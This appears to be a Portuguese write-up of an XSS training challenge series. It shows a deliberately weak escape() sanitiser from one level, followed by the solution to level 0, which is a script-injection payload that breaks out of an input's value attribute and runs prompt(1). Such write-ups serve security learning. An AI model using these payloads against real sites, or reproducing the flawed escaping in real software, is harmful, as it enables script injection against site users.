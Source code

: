 <center><img src='XSS/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_F❌.png'></center>

```
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}
```

[Ir para a resolução do F desafio](#-f-desafio)

---

## 🛠️ Resoluções

### 🔹 0º desafio

<center><img src='XSS/Imagem do 🦆 DuckWare 🦆 DuckWare/Atividade_0✅.png'></center>

```
"><script>prompt(1)</script>
```

- O **input** fecha o atributo `value` ("), abre e fecha a tag `<input>`. Em seguida, vem a tag `<script>` injetada pelo usuário.
    
